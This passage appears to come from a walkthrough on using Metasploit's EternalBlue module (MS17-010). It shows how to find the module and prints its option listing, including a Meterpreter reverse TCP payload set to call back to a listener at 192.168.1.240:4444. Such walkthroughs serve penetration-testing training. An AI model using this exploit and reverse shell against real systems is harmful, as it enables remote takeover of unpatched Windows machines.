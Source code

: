 Launch Metasploit on linux with `msfconsole`. You can search for either the ms # (ms17-010) or the CVE # (2017-0144) and find similar results. 
We can see the exploit path is **exploit/windows/smb/ms17_010_eternalblue**

### Options

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                             /wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                             Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Wind
                                             ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server
                                              2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.240    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```
